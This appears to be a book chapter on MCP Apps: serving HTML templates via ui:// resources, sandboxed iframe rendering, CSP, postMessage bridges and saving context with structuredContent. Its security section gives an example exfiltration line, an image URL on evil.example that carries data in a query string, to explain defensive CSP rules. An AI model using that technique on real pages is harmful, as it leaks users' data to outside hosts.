

MCP Apps: Interactive Interfaces
An MCP App is a curtain. The user sees a button; the server decides what the button does and what the button says it does. Those are two separate things under one party’s control, which is a sentence worth reading twice.
That tension runs through this whole chapter. Interactive interfaces are genuinely the right answer for some tool results and genuinely dangerous, and both facts come from the same source: the HTML arrived from somebody else’s server. So: when an app beats a paragraph, and what the host has to do to make rendering one safe.
The problem
Tool results are text. Sometimes text is wrong.
A user asks to see risk across a portfolio. You could return a list of forty accounts with scores, and the model could summarise it, and the user could ask follow-up questions one at a time, each costing a full loop iteration and around 440 milliseconds. Or you could render a sortable table where they click a column header and get their answer in 50 milliseconds with no model turn at all.
The second one is better, and it is better for a reason worth stating precisely: interactive exploration does not consume the context budget. Every click in a rendered table is a question that never became a prompt.
How it works
MCP Apps is the first official extension, identified as io.modelcontextprotocol/ui. Five moving parts.
1. A tool declares a UI in its metadata:
@server.tool(
"assess_account_risk",
"Score one commercial account for credit risk...",
{ ...inputSchema... },
output_schema={ ... },
annotations={"readOnlyHint": True, "idempotentHint": True},
ui_resource_uri="ui://meridian/risk-dashboard",
)
def assess_account_risk(ctx: RequestContext):
...which serialises into the tool definition as:
{
"name": "assess_account_risk",
"description": "...",
"inputSchema": { ... },
"_meta": { "ui": { "resourceUri": "ui://meridian/risk-dashboard" } }
}2. The template lives at a ui:// resource, served like any other resource with a MIME type that says what it is:
@server.resource(
"ui://meridian/risk-dashboard",
"Risk dashboard",
description="MCP App template for interactive drill-down.",
mime_type="text/html;profile=mcp-app",
ttl_ms=86_400_000,
cache_scope="public",
)
def dashboard(ctx: RequestContext, uri: str):
return DASHBOARD_HTML3. The host renders it in a sandboxed iframe, with a Content Security Policy built from origins the server declared. The default is no network at all.
4. The app talks to the host over postMessage, in a JSON-RPC dialect. Some methods are shared with core MCP (tools/call), some are new and prefixed ui/.
5. structuredContent feeds the app rather than the model. The data the app renders never has to enter the context window.
Predeclaration is the performance story
The template URI is in the tool definition, which the host fetched during tools/list, which happened long before the tool was called.
That gives the host three things it could not otherwise have:
- Prefetch
-
Fetch and parse the template during idle time, so the first render is instant.
- Cache
-
Meridian’s template carries a 24-hour TTL and
cacheScope: public. It is identical for every user, so a shared gateway can serve it, and a returning user never fetches it at all. - Security review
-
Read the HTML, check the declared CSP origins, and decide whether to render it before any tool runs. A host that fetches templates lazily is deciding whether to trust code at the worst possible moment.
That third one is the real argument. Predeclaration is not primarily a latency optimisation, it is what makes review possible at all.
The security contract
Now the part that should make you sit up. A server is sending you HTML, and you are going to execute it.

What the sandbox guarantees
The iframe cannot reach the parent DOM, cannot read the host’s cookies or local storage, cannot navigate the parent page, and cannot execute in the parent context. Standard browser sandboxing, doing what it was designed for.
Two mechanisms produce that, and they are worth separating because they fail independently.
The sandbox attribute on the iframe. By default it removes almost everything: scripts, forms, popups, top-level navigation, and, crucially, the frame’s origin. A sandboxed frame gets a unique opaque origin, which is what makes it a stranger to the parent page rather than a colleague.
An app needs JavaScript, so the host adds allow-scripts back. What it must never add alongside it is allow-same-origin:
sandbox="allow-scripts" the app runs, isolated
sandbox="allow-scripts allow-same-origin" the sandbox is now decorativeThose two together give the frame back the parent’s origin and the ability to run code in it, which is precisely the combination the sandbox existed to prevent. The frame can then reach into the parent document, read storage, and remove its own sandbox attribute for good measure. The browser warns about this pairing in the console and permits it anyway, and it is the single most common way a sandbox turns out to have been decoration.
A Content Security Policy, which controls what the frame may talk to.
CSP, for people who have not written one
A Content Security Policy is a list of directives, each naming a class of resource and the origins that class may come from. The browser enforces it, which is what makes it worth anything: an app cannot opt out of a policy applied to it.
The directives that matter here:
| Directive | Governs |
connect-src |
fetch, XHR, WebSocket, sendBeacon. The exfiltration directive |
script-src |
Where executable code may be loaded from |
style-src |
Stylesheets |
img-src |
Images, which are a data channel too: a URL is a GET |
frame-src |
Nested frames |
default-src |
The fallback for anything not named above |
The host builds the policy, starting from deny-everything and adding the origins the server declared in _meta.ui.csp. So an app that wants a charting library from a CDN must say so in advance, in a field a human reads during review, rather than discovering the need at runtime and reaching for it.
"_meta": {
"ui": {
"resourceUri": "ui://meridian/risk-dashboard",
"csp": { "connect-src": ["https://api.meridian.example"] }
}
}Note which directive the exfiltration lives behind. An app that renders account data and declares connect-src to an origin you do not recognise has asked you, in writing, for permission to send that data somewhere. And img-src is the one people forget: setting an image source to https://evil.example/?d=<data> is a GET request with a payload, and no connect-src entry is involved.
Meridian’s template needs none of this. It has no external assets, so its policy is deny-everything, and its only channel to the world is the one described below.
The rule that everything else rests on
This is the one people are tempted to break, because it is annoying. The user clicked a button in a UI they can see; asking them to confirm feels redundant.
It is not redundant. The button was rendered by HTML that arrived from a server, and the server may be compromised, and the label on the button is under the server’s control while the action behind it is also under the server’s control. A button that says “Refresh” can call transfer_funds. The host’s consent gate is the only thing that shows the user what is actually about to happen.
Meridian’s dashboard makes the round trip explicitly, with a comment for whoever reads it next:
document.getElementById('refresh').addEventListener('click', async () => {
// A tool call from the app travels the host's normal consent and audit
// path. The iframe gets no shortcut just because it is inside the host.
const r = await rpc('tools/call',
{ name: 'assess_account_risk', arguments: { accountId } });
if (r && r.structuredContent) render(r.structuredContent);
});Chapter 19 treats this properly, including what an audit log has to record to make an incident reconstructible.
structuredContent and the context budget
Here is the thing that makes Apps interesting to a performance book.
A tool result has two payloads. content is for the model. structuredContent is for programs. An app reads the second one, and the first one can be small.
{
"content": [
{ "type": "text", "text": "ACC-1042 scored 55.4 (elevated)." }
],
"structuredContent": {
"accountId": "ACC-1042",
"score": 55.4,
"band": "elevated",
"drivers": [
{ "factor": "leverage", "contribution": 24.7 },
{ "factor": "tenure", "contribution": -10.8 },
{ "factor": "priorDefaults", "contribution": 0.0 },
{ "factor": "scale", "contribution": -0.5 }
]
}
}The model reads eleven words. The app renders the full driver breakdown. Neither is short-changed, and the context window absorbs the smaller of the two.
Scale that up and the argument gets loud. A forty-account portfolio table is maybe 6,000 tokens of JSON if it goes to the model. Delivered as structuredContent to an app, with a one-line text summary for the model, it is about 20.
When an app beats text, and when it does not
The honest table, because the failure mode here is building a dashboard for a question with a one-word answer.
| An app earns its place | Text is better |
| The user will ask follow-ups that are really filters (“show me only the C-tier ones”) | The answer is a number or a sentence |
| The data has more dimensions than a sentence can carry (a map, a heatmap, a diff) | The result feeds the next tool call rather than a human |
| Configuration with many interdependent options, where a form beats twelve turns of dialogue | The user is on a screen reader or a terminal |
| Real-time monitoring, where the alternative is asking “what is it now” repeatedly | The interaction is one-shot and the app would be seen once |
| Multi-step triage: examine, act, next, with state that persists across items | You would be reimplementing a table that renders fine as Markdown |
The test I use: would the user’s next three questions be answered by clicking, or by typing? Clicking means an app. Typing means the model is doing the work, and a UI is just something else to maintain.
Building one
Meridian’s dashboard is deliberately vanilla: no framework, no build step, one file. The bridge is about fifteen lines.
// Everything the app knows arrives through postMessage. It has no network of
// its own: the host builds a CSP from the server's declared domains, and the
// default is no network at all.
const rpc = (method, params) => new Promise(resolve => {
const id = Math.random().toString(36).slice(2);
const onMessage = (e) => {
if (e.data && e.data.id === id) {
window.removeEventListener('message', onMessage);
resolve(e.data.result);
}
};
window.addEventListener('message', onMessage);
parent.postMessage({ jsonrpc: '2.0', id, method, params }, '*');
});The handshake and the render path:
window.addEventListener('message', (e) => {
if (e.data && e.data.method === 'ui/render')
render(e.data.params.structuredContent);
});
parent.postMessage({ jsonrpc: '2.0', id: 'init', method: 'ui/initialize',
params: { protocolVersion: '2026-01-26' } }, '*');Note that the app announces its protocol version, 2026-01-26, which is the Apps extension’s own revision, not core MCP’s. Extensions version independently, as Chapter 9 described, and this is what that looks like in practice.
What postMessage is, and where the check goes
postMessage exists because the same-origin policy forbids two documents from different origins touching each other’s DOM, and yet they sometimes need to talk. It is the one sanctioned hole: a document may send a structured-cloneable value to another window, which receives it as an event.
It has two parameters that carry all the security, one on each side.
Sending: targetOrigin. The second argument to postMessage. The browser delivers the message only if the receiving document’s origin matches, so passing your host’s actual origin means a frame that has been navigated somewhere unexpected receives nothing. Passing ’*’ means deliver to whoever is there.
Receiving: event.origin. The property on the inbound event, set by the browser and not by the sender, which is what makes it trustworthy. Nothing checks it for you.
window.addEventListener('message', (e) => {
if (e.origin !== EXPECTED_ORIGIN) return; // the whole check
handle(e.data);
});Omit those two lines in a host and any page that can get a handle on your window can send you JSON-RPC. The bridge is the app’s only channel to the outside, so whatever can write to the bridge has the app’s whole authority, and the app’s authority includes calling tools.
The asymmetry is worth stating plainly, because it decides where to spend your care. An app that gets targetOrigin wrong leaks its own messages. A host that skips event.origin accepts commands from anybody. The receiving side is where the security is.
Frameworks are entirely optional. The official examples ship starters for React, Vue, Svelte, Preact, Solid, and vanilla JavaScript, and the App class in @modelcontextprotocol/ext-apps is a convenience wrapper. It is postMessage and JSON-RPC underneath, which means the whole web platform is available and none of it is mandatory.
UX patterns worth copying
Render immediately, refine on arrival. The host can prefetch the template and even stream tool inputs into it before the result exists. Show skeleton state, then fill it. Perceived latency is the latency.
Keep the app and the conversation in sync. A user who filters to C-tier accounts in the app and then asks “why are these risky” expects the model to know what “these” means. The app should push a context update; the host should merge it. Without that, the app is a separate application that happens to be drawn in the same window.
Save state on teardown. Apps get closed. If a user was three steps into triage, losing that is worse than never having had it.
Degrade to text. Not every host renders apps. Your tool must still return useful content, and it must stand on its own. A placeholder saying “see the dashboard” is a broken tool. Meridian’s tools all return complete text results whether or not anything renders them.
Measuring an app
Three numbers worth watching, and only the first is obvious.
Time to first render. Template fetch, plus parse, plus paint. With prefetch and a warm cache the fetch is zero and this is dominated by paint. Cold, it is a full resource read on top.
Tokens saved. Compare the content you send with the structuredContent you would have had to send if the model needed the detail. That difference, times the number of turns after the call, is what the app bought you.
Interactions per model turn. The real one. If users click eight times between model turns, those are eight questions that cost nothing. If they click once and then type, the app is not carrying its weight.
What to remember
Apps is an extension,
io.modelcontextprotocol/ui, negotiated like any other.Tools declare a template via
_meta.ui.resourceUri; templates live atui://resources.Predeclaration lets the host prefetch, cache, and review before any tool runs. Review is the real benefit.
Sandboxed iframe.
allow-scriptswithoutallow-same-origin, or the sandbox is decoration. Deny-by-default CSP, andconnect-srcis the exfiltration directive.Every UI-initiated tool call goes through the host’s normal consent and audit path. This rule is what makes the rest safe.
Validate
event.originon every inboundpostMessage. The receiving side is where the security is.structuredContentfeeds the app,contentfeeds the model, and that split is how an app saves context.Build an app when the next three questions are clicks. Otherwise return text.
Always degrade gracefully. Not every host renders apps, and your text result must stand alone.
That closes Part II. You have the whole capability surface now: tools, resources, prompts, multi round-trip requests, extensions with Tasks, and Apps. Part III builds something with them.